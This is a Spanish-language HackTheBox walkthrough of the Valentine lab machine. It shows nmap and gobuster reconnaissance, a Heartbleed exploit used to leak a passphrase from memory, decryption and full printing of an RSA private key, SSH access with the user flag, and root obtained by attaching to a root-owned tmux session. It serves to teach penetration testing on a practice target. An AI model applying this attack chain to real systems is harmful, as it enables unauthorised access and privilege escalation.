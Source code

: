 ```yaml
---
title: Valentine Writeup
author:
date: 22-02-2023
categories: [HackTheBox, Machines Easy]
tags: [Writeup, Guías, HackTheBox,SSL/TLS,Web,OpenSSL,encode]
pin: false
image:
  path: /assets/img/commons/Valentine/Valentine.png
  alt: Valentine WriteUp
---
```


**10.10.10.79 Valentine (easy machine)** Otra máquina de HackTheBox vengo a traer esta vez tocando un poco de codificación y cifrado con una clave rsa para acceder por ssh.

## Information Ghatering / ScanPorts

- Comenzamos con la fase de recolección de información haciendo un escaneo por TCP en todos los puertos con nmap

```console
$ nmap -p-  -sS -vvv  --min-rate 2000 -n -Pn 10.10.10.79 -oG allPorts 

```
-p-  -> escanearemos todos los rangos de puertos (65535)

-sS -> análisis utilizando TCP SYN Este tipo de escaneo, está basado en la velocidad de escaneo, de ahí la versatilidad que mencionamos anteriormente, ya que permite escanear miles de puertos por segundo en una red que se encuentre de>

-vvv -> verbose para que mediante vayas descubriendo puertos se reporten en la terminal

--min-rate 2000 -> paquetes enviados no mas lentos que 2000 paquetes por segundo, envío de paquetes super rápido

-n -> que no aplique resoluci+on de DNS para que no tarde el escaneo

-Pn -> ni que me detecte el descburimiento de hosts

```console
$ nmap -p-  -sS -vvv  --min-rate 2000 -n -Pn 10.10.10.79 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-22 13:30 CST
Initiating SYN Stealth Scan at 13:30
Scanning 10.10.10.79 [65535 ports]
Discovered open port 443/tcp on 10.10.10.79
Discovered open port 80/tcp on 10.10.10.79
Discovered open port 22/tcp on 10.10.10.79
Completed SYN Stealth Scan at 13:31, 13.29s elapsed (65535 total ports)
Nmap scan report for 10.10.10.79
Host is up, received user-set (0.067s latency).
Scanned at 2023-02-22 13:30:51 CST for 13s
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE REASON
22/tcp  open  ssh     syn-ack ttl 63
80/tcp  open  http    syn-ack ttl 63
443/tcp open  https   syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 13.40 seconds
           Raw packets sent: 66088 (2.908MB) | Rcvd: 65862 (2.634MB)
```
aqui ya es importante tomar en cuenta el dominio que cuenta con certificado SSL/TLS asi que pasaré otra vez nmap para saber mas a fondo el descubrimiento

-sCV -> escaneo lanzando scripts que detecten servicios y versiones

-p -> especeficando los puertos a escanear

-oN y todo nuestro output lo guardamos en una captura formato nmap con el nombre de targeted
```console
nmap -sCV -p22,80,443 10.10.10.79 -oN targeted        
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-22 13:32 CST
Nmap scan report for 10.10.10.79
Host is up (0.070s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 964c51423cba2249204d3eec90ccfd0e (DSA)
|   2048 46bf1fcc924f1da042b3d216a8583133 (RSA)
|_  256 e62b2519cb7e54cb0ab9ac1698c67da9 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after:  2019-02-06T00:45:25
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_ssl-date: 2023-02-22T19:32:21+00:00; -1s from scanner time.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.64 seconds
```
me da una resolución DNS asi que **valentine.htb** lo guardaré en el /etc/hosts
![](/assets/img/commons/Valentine/terminal.png)
al ver el sitio web con y sin la resolución de DNS vemos que es lo mismo 
![](/assets/img/commons/Valentine/terminal1.png)
nada interesante por ahorita, analizando el sitio web. Voy a proceder a fuzzear rutas con gobuster

## BruteForce Directory Discovery
```console
$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://valentine.htb/
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://valentine.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.4
[+] Timeout:                 10s
===============================================================
2023/02/22 13:33:40 Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 38]
/dev                  (Status: 301) [Size: 312] [--> http://valentine.htb/dev/]
/encode               (Status: 200) [Size: 554]
/decode               (Status: 200) [Size: 552]
/omg                  (Status: 200) [Size: 153356]
Progress: 35694 / 220561 (16.18%)^C
[!] Keyboard interrupt detected, terminating.

===============================================================
2023/02/22 13:37:44 Finished
===============================================================
```
encontramos algo que me llama la atención un directorio /dev  
![](/assets/img/commons/Valentine/terminal2.png)
en hype_key vemos un tipo de codificación en hexadecimal y por el nombre quiero pensar que es una clave importante, asi que me lo voy a traer a mi equipo y haré su proceso inverso
![](/assets/img/commons/Valentine/terminal3.png)
tenemos una clave id_rsa:) el unico problema es que esta cifrada y para eso tenemos que tener una password...

## Exploitation Heartbleed dump Password
al revisar la portada del sitio web, hay una pista de un logo. una vulnerabilidad que fue muy conocida llamada heartbleed pero que es esto? es una vulnerabilidad grave en la biblioteca de software criptográfico popularmente llamado OpenSSL.  permite robar información protegida en condiciones normales de criptografía SSL / TLS , La criptografía SSL / TLS fortalece la seguridad y privacidad de comunicación por medio de internet para aplicaciones tales como web, correo electrónico, mensajes instantáneos y algunas redes privadas virtuales (VPN’s) por lo tanto la conexión va a ir cifrada.
ante este fallo de seguridad grave, buscaré si hay un exploit relacionado a ello
![](/assets/img/commons/Valentine/terminal4.png)
analizando el primer exploit vemos lo siguiente que nos muestra.
![](/assets/img/commons/Valentine/terminal5.png)
Usando el exploit va a dumpear, información confidencial de la memoria aprovechandose de esta falla del certificado SSL/TLS.  Ejecutarlo varias veces debería generar una cadena codificada en base64 probablemente tenga que pasar varias veces el exploit hasta el punto donde recoja lo que nos interesa 
![](/assets/img/commons/Valentine/terminal6.png)
vemos que pasando el exploit un par de veces me logro recoger esa cadena en bas64, solo hay que tener que hacer el proceso iverso y debería quedar la password
```console
$ echo 'aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==' | base64 -d;echo 
heartbleedbelievethehype
```
y vemos que la password es **heartbleedbelievethehype**, ahora para descifrar la clave rsa usaré openssl pasandole la password que tenemos
```console
$ openssl rsa -in hype_rsa -out hype_new_rsa
Enter pass phrase for hype_rsa: 
writing RSA key
```
```console
-----BEGIN PRIVATE KEY-----
MIIEvwIBADANBgkqhkiG9w0BAQEFAASCBKkwggSlAgEAAoIBAQDUU3iZcDCfeCCI
ML834Fx2YQF/TIyXoi6VI6S/1Z9SsZM9NShwUdRr3mPJocWOZ7RzuEbpRFZL1zgk
ykHfn8pR0Wc6kjQw4lCVGV237iqWlG+MSGRVOPuDS1UmaN3dN6bLL541LNpTscE4
RbNzPhP6pD5pKsSX7IcMsAfyZ9rpfZKuciS0LXpbTS6kokrru6/MM1u3DkcfxuSW
8HeO6lWQ7sbCMLbCp9WjKmBRlxMY4Jj0tUsz8f66vGaHxWiaUzBFy5m82qfCyL9N
4Yro1xe1RF8uC58i8rE/baDzW2GMK7JVcAvPiunu2J0QeWg8sVOytLLxPVxPrPKD
b7CBEkzNAgMBAAECggEAIGoBzkLfWWkIZmIyvwAEfZn/lYSFLhz3SZNgclzVbtVn
Kf/0hXkombMgvsZwl3XjiYsHYFMrbXaUvqEV/2Kwi18RiFKLny7dqHVv5kV4wPY2
NU9T6eLCGuAkRrHZtQzq7Lf/ShTn28EWQ1X4uE4w1KHAWWPLEXptf5VcETijpeNb
jrgVMP/MamWwHkyvKBc2+THXgzBeEo+mMsPcUXYdmI+axq8f3blUZ8zEsuPVXZPX
GukTCTOKYBOs6+Vc3TQFmqqabrjdAmsmuCWyeQWfz9wEzG5aXPDW0etIWY7xiez4
lUAE/RyL2Oa9WEuJ2qoeyGXcOYyFve1LicDelNzRDQKBgQDuLVB5xSvKG0K21zd3
NBUJl2aQP1Kvt/uv+d7uM1U2r+f9VSHplggQur466Kn5Gd5Htymi/Wz4I4X4rIlb
ksI22qYL7vC1gxJZ91KZ8xyj6lFZC8UdVrwoLULarJthaDEPWBGMNta811qs6rs0
ZUEETlbaWmbac7SzcGR3neg0bwKBgQDkNvAU/ZDjs3ZOC1507CwIoTe7MYZJXcVN
EHcdmg4sFxzcJgEzWRBmlxOGXlhUu9zqvpPFBGEpzvdBHYYUsPTfJgE3sfCA4+1T
+3ubZ0golGBKQtgT8b6JnU7E0mxNZERDfhvJVeHGCmbgsR6V8A3j6Zu5vwQsSL1v
Yb1aDiQIgwKBgQDE9C/iIkwNuvE2JU42gpkK72neyp5jtG6qnKPeshA7QsdCVA3R
DUHqI6J/MDquRNfs0efaYlqj7ywv8O09DmUP20sH/zSJxLN+NejWaZU7bt6KFhOQ
KVM6ngL0tVtf9zrqh1crbYWxbxwKdakMsNZM60MjGTKIXroE0GIkEC4efQKBgQCT
dVQHnBfEqS7mGr57uiZxpQoHsGZefXKA6wSsYeCKaJzDOuNHtGK+hxuclNVqWsDS
BTYh9UR66TomHteGAxkWHs5mmFkYTy4IN9SUg1XCsqzNDwfjSy6caMJ+tqA4GXNq
UM/PdeieOBZlVMy4gRXYkBeJG32sx4tvrq3UxJJP1QKBgQCe2jm6q4DtQ+mTvOBr
CipH6ReGU7LVGk7U7A3ElcCL8QH32TRAvma8SB4TBE//5LxQJG8sZ0euceDobIIR
Axg25Qa05Wo1HDZ7MiulTtHJt1MU3+Bf7pK2lQTBcUC4xwOSSxI1MsgkLaxrt4kW
kep5qMlYBzfSo47UgGU1Wh6HEA==
-----END PRIVATE KEY-----
```
y ya tenemos nuestra clave rsa, ahora solo nos coenctamos por ssh y tener nuestra primera flag:)
```console
ssh -i hype_new_rsa hype@10.10.10.79 -o PubkeyAcceptedKeyTypes=ssh-rsa      
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Fri Feb 16 14:50:29 2018 from 10.10.14.3
hype@Valentine:~$ whoami
hype
hype@Valentine:~$ find \-name \*.txt
./Desktop/user.txt
./user.txt
hype@Valentine:~$ cat user.txt 
4181b8c7067515664e7481b29087517a
```
## Privilege Escalation - Post Exploitation

para enumerar rápido y eficaz el sistema pase linpeas
![](/assets/img/commons/Valentine/terminal7.png)
y encontré algo que me llamo mucho la atención en la parte de (Processes, Crons, Timers, Services and Sockets)
![](/assets/img/commons/Valentine/terminal8.png)
observamos que se está ejecutando una sesión tmux como usuario root. Simplemente ejecutando el tmux -S /.devs/dev_sess como se nos muestra en el proceso se conectará a la sesión, con la raíz completa privilegios
![](/assets/img/commons/Valentine/terminal9.png)

